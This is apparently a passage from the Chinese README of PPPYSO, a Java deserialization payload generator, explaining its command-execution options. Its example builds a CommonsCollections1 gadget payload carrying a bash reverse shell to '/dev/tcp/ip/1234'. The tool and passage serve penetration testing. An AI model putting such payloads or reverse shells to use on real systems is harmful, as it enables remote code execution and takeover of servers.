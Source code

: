 ![image-20240423115636521](attachments/image-20240423115636521.png)

# 0x02 增强功能

通过 `-e | -enchant` 指定增强类型，所有指令忽略大小写

通过 `java -jar PPPYSO-{version}-jar-with-dependencies.jar -g commonscollections1 -show` 获取调用链支持的增强功能，指令均忽略大小写。

![image-20240417155911348](attachments/image-20240417155911348.png)

## Command 命令执行

```
-e command
-cmd {whoami}
-cmdt {ScriptEngine}
-split
```

+ `-cmd` 输入命令
+ `-cmdt` 命令执行类型
+ `-split` 参数会将命令拆分为 `String[3]` 数组，用这个参数相当于可以指定执行命令所需的终端

eg. `-g commonscollections1 -e command -cmd "bash -c bash -i >&/dev/tcp/ip/1234 0>&1" -split`

![image-20240419091148438](attachments/image-20240419091148438.png)
